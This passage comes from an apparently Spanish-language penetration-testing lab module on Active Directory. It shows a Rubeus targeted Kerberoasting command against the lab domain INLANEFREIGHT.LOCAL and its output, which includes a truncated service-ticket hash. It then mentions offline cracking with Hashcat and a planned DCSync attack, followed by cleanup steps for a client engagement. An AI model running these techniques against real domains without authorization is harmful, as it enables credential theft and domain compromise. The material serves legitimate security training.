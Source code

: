 ```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : adunn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=adunn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : adunn
[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : notahacker/LEGIT
[*] PwdLastSet             : 3/1/2022 11:29:08 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

¡Excelente! Hemos obtenido con éxito el hash. El último paso es intentar descifrar la contraseña sin conexión usando Hashcat. Una vez que tengamos la contraseña de texto sin cifrar, ahora podremos autenticarnos como `adunn`usuario y realizar el ataque DCSync, que cubriremos en la siguiente sección.
## Limpiar

En términos de limpieza, hay algunas cosas que debemos hacer:

1. Elimine el SPN falso que creamos para el `adunn`usuario.
2. Eliminar al `damundsen`usuario del `Help Desk Level 1`grupo
3. Establezca la contraseña del `damundsen`usuario nuevamente a su valor original (si lo conocemos) o haga que nuestro cliente la establezca/alerte al usuario.

Este orden es importante porque si primero eliminamos al usuario del grupo, no tendremos derechos para eliminar el SPN falso.
Primero, eliminemos el SPN falso de la `adunn`cuenta.
#### Eliminar el SPN falso de la cuenta de adunn
